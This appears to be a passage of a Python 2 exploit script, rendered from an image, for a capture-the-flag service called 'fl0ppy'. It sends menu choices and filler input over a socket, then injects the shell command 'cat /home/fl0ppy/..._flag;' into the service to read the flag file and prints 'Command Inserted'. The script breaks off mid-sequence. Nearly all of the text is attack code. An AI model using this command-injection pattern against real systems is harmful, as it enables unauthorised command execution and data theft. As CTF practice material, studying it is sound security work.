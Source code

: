 ``` py
s.send("2\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("BBBB\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("BBBB\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("4\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("2\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("cat /home/fl0ppy/1e77461abb8c903ded93de4573d55c2e_flag;\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
print "******************* Command Inserted ***********************"
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("4\n")
```